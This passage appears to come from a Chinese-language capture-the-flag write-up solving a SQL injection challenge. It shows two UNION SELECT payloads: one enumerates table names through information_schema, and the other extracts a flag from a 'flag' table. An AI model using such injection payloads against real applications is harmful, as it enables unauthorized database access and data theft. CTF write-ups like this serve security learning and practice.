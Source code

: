 ![](./images/image-33.png)

可以看到成功爆出数据库名

```
孙%' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3,4,5,6,7,8,9,10,11,12,13,14 where '1%'='1
```

![](./images/image-34.png)

```
孙%' union select 1,(select flag from flag),3,4,5,6,7,8,9,10,11,12,13,14 where '1%'='1
```

![](./images/image-35.png)
